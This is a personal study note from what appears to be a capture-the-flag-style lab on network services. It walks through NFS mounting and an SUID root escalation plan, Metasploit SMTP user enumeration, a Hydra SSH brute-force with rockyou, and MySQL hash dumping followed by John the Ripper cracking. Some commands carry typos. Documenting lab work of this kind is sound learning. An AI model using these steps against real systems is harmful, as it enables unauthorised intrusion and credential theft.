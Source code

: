 ```yaml
---
tags:
  - programming/hacking/networking
---
```

# Network Services 3

First off we need to enumerate the machine - this is, we need to find potential attack vectors on the target machine. First off, let's get the tools to actually connect via NFS

	sudo apt install nfs-common

Now let's do a port scan. This was covered elsewhere, but let's put it here in case I can't remember it.... which I can't. 

	# set ip address for later use
	ipaddr=10.10.120.139
	nmap $ipaddr -oN ./01_nmap.log # -oN will output to file

Now we want to show the directory availbe on the NFS

	/usr/sbin/showmount -e $ipaddr

Now mount it

	mkdir /tmp/mount # Create a mount point
	sudo mount -t nfs IP:share /tmp/mount/ -nolock

"-t nfs" tell the type, "-nolock" will not use NLM locking (?). Or, since we know the filename and the address and have it set already, the full command would be

	sudo mount -t nfs "$ipaddr":home /tmp/mount/ -nolock

TADAH! Magic

## Exploiting NFS

Now we want to try and escalate privileges. NFS usually has root-squash enable which means you can't get root through it. But if it does not then we're in business. This is done by uploading an SUID file and executing it.  SUID means the file executes as the file's owner instead of whoever actually is calling it. Very useful. 

NFS access -> low priv shell -> upload bash file -> set SUID permission -> login through ssh -> execute SUID bit -> ROOT baby!



## SMTP

Email communication. Simple Mail Transfer Protocol. Has two internal commands VRFY to verify users and EXPN which
verifies usernames and gets user aliases and lists of email. Metasploit (of course) has ways to exploit this. So that's
do it!

Using metasploit here we will be getting information from ther server and enumerating the users. 

```
msfconsole

search smtp_version

use 0
set RHOSTS XX.XX.XX.XXX
run
```

This will give us the version of SMTP being used and then we can enumerator the users

```bash
search smtp_enum
set RHOSTS XX.XX.XX.XXX
set UESR_FILES /path/to/wordlist.txt
run
```
Username we get back is "administrator"

Sweet, we got a username and let's break the system!

### Getting Password with Hydra

For more info, see [Hydra](Hydra.md)

Command to use:
```
hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.119.168 ssh


Options for the command:
```
-t 16
	Number of parallel connections per target
-l [user]	Points to the user who's account you're trying to compromise
-P [path to dictionary]	Points to the file containing the list of possible passwords
-vV
	Sets verbose mode to very verbose, shows the login+pass combination for each attempt
[machine IP]	The IP address of the target machine
ssh / protocol	Sets the protocol
```

Dang, that worked great! Now that we have the password, let's go ahead and log in to ssh. 

```
ssh user@#ipaddr
# enter password
```

## mysql

There is some explaination as to what SQL databases are, but we know this already. Put data into a database and 
it relates to other data which help to deduplicate data. Good good. 

### Exploiting MySQL database

You can brute force passwords if you really want to get into a system but that is most likely not the best option. 
Usually we get credentials from a different method and work our way in from there. In this case we will assume that we
have gotten some credentials. "root:password" in this case, and that we have tried logging in via ssh with no luck

First, let's get mysql client

```
sudo apt install default-mysql-client
```

Fire up metaspoit and run `db_nmap -sV IPADDR` and see what we can see. MySQL is running on posrt 3306, so let's see if
we can connect to that using `mysql -h [IP] -u [username] -p"`

We can use the mysql_sql module to run attacks against a mysql database. Just need search, use, set some parameters and
we're good to go

#### Exploiting mysql

Let's get to the fun part - actually exploiting the database

We can run `mysql_schemadump` and get the databases the exist. Which is interesting but not terribly fun. We can also
use `mysql_hashdump` to get usernames and password hashes. In this case we get

```
    carl:*EA031893AA21444B170FC2162A56978B8CEECE18
```

Copy that password hash and let's see if we can crack it wide open. Time for john the ripper!

```
    john ./02_hash.txt
```
